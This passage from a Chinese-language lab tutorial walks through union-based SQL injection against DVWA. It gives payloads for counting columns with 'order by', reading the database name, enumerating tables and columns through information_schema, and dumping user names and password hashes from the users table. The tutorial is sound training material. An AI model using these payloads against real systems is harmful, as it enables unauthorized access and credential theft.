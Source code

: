 5.继续尝试输入 `1' order by 1#`和 `1' order by 2#` ，一直到`1' order by 3#` ， 当输入 `1' order by 3#`时，返回错误： 

![1633507984223](https://i.loli.net/2021/10/07/jBlwYtJeXn8s2QL.png)

由此可知，users表中只有两个字段，列数为2

6.使用union select联合查询继续获取信息

union 运算符可以将两个或两个以上 select 语句的查询结果集合合并成一个结果集合显示，即执行联合查询。需要注意在使用 union 查询的时候需要和主查询的列数相同，而我们之前已经知道了主查询列数为 2

输入 `1' union select database(),1#`进行查询 

![1633517538951](https://i.loli.net/2021/10/07/3hYTOipyE1DrJqm.png)

- database()将会返回当前网站所使用的数据库名字

实际执行的sql语句：

```bash
SELECT first_name, last_name FROM users WHERE user_id = '1' union select database(),1#`;
```

我们成功获取到：

- 当前网站使用数据库为 dvwa

获取了数据库名dvwa后尝试获取数据库中的表名输入：

```
'1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#'
```

 mysql5.0后系统内置了information_schema数据库，information_schema 用于存储数据库元数据(关于数据的数据)，例如数据库名、表名、列的数据类型、访问权限等

  该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录存储的表名和表名所在的数据库 

![1633509769805](https://i.loli.net/2021/10/07/YGNdzKlMnZVtjpb.png)

实际执行的sql语句：

```csharp
ELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;
```

共获取到dvwa数据库的两个表，geuestbook以及users

接下来尝试获取用户名、密码，输入以下获取users表里的所有字段：

```
1' union select column_name,table_name from information_schema.columns where table_name = 'users' #
```

![1633517872147](https://i.loli.net/2021/10/07/Neb5d6ZE8S2flMB.png)

获取到有两个字段user,password是我们需要的，所以输入：`1' union select user,password from users#`进行查询 ：

![1633510187314](https://i.loli.net/2021/10/07/ObjtKx587nSTvPw.png)
